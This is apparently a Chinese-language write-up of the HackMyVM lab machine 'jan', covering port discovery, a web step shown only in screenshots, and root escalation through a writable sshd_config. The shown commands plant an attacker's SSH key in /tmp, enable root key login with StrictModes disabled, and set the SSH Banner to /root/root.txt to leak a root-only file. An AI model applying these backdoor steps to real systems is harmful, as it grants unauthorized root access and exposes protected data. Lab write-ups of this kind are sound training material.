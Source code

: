```yaml
---
{"dg-publish":true,"title":"hackmyvm_jan","dg-path":"安全/靶机/hackmyvm_jan.md","permalink":"/安全/靶机/hackmyvm_jan/","dgPassFrontmatter":true}
---
```


# 主机发现
![Pasted image 20250131110451.png](/img/user/picture/Pasted%20image%2020250131110451.png)
只开了两个端口，22，8080




# web渗透

![Pasted image 20250131112116.png](/img/user/picture/Pasted%20image%2020250131112116.png)
首先提示我们了两个网页

![Pasted image 20250131112141.png](/img/user/picture/Pasted%20image%2020250131112141.png)
![Pasted image 20250131112149.png](/img/user/picture/Pasted%20image%2020250131112149.png)


本来以为是SSRF，弄了半天也没弄出来

下面是看大佬提示发现的：
![Pasted image 20250131123623.png](/img/user/picture/Pasted%20image%2020250131123623.png)

![Pasted image 20250131124950.png](/img/user/picture/Pasted%20image%2020250131124950.png)




# 提权

![Pasted image 20250131131239.png](/img/user/picture/Pasted%20image%2020250131131239.png)
发现有`/sbin/service sshd restart`权限，也就是重启ssh
很明显的提示，应该是在ssh服务上做文章

![Pasted image 20250131133242.png](/img/user/picture/Pasted%20image%2020250131133242.png)
查看ssh配置文件权限
![Pasted image 20250131131355.png](/img/user/picture/Pasted%20image%2020250131131355.png)
发现具有可写权限，更印证了思路

因为我们没有root的密码，我们可以尝试修改配置文件可以支持让我们用公钥连接root

生成一对密钥：
```shell
ssh-keygen -t ed25519 -f ~/.ssh/evil_key
```

**在目标机上创建并填充文件**（例如 `/tmp/mykeys`），将你的公钥写进去。
```shell
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAI...YourKey... user@attackhost" > /tmp/mykeys
chmod 600 /tmp/mykeys
```
现在 `/tmp/mykeys` 这个文件就包含了你的公钥。


修改配置文件：
```txt
# 注意：如果默认 PermitRootLogin 是 no，需要改成 yes 或 prohibit-password (允许公钥登录)。
PermitRootLogin yes

# 确保服务器允许公钥认证
PubkeyAuthentication yes

# 指向你刚才创建的文件
AuthorizedKeysFile /tmp/mykeys

StrictModes no
```

注意，我们是把公钥放在了`/tmp`中，这与 SSH 的严格模式冲突，会导致导致 sshd 不信任其中的公钥。
 即使 `sshd_config` 文件里 `#StrictModes yes` 是注释掉的，OpenSSH 默认仍会把它视为 `yes`。
 只有显式设置 `StrictModes no`，才会允许加载不安全路径下的 authorized_keys 文件


重启服务
```shell
sudo /sbin/service sshd restart
```

现在就可以直接登录上去了
![Pasted image 20250131131945.png](/img/user/picture/Pasted%20image%2020250131131945.png)


# 提权-补


还有一种方法，可以让我们获取flag但是没法获取root全部权限

首先要知道：
**SSH Banner 机制**：在 `sshd_config` 中可以指定一个 `Banner` 文件路径。客户端连接时，SSH 守护进程会以 root 权限读取该文件并把内容展示给客户端。

修改其中的：
![cc7cb2c250e49c631bab9e3289cc858.png](/img/user/picture/cc7cb2c250e49c631bab9e3289cc858.png)
```txt
Banner /root/root.txt
```


重载：
```shell
sudo /sbin/service sshd restart
```


之后再ssh连接即可
（不需要连上去）
![Pasted image 20250131160350.png](/img/user/picture/Pasted%20image%2020250131160350.png)

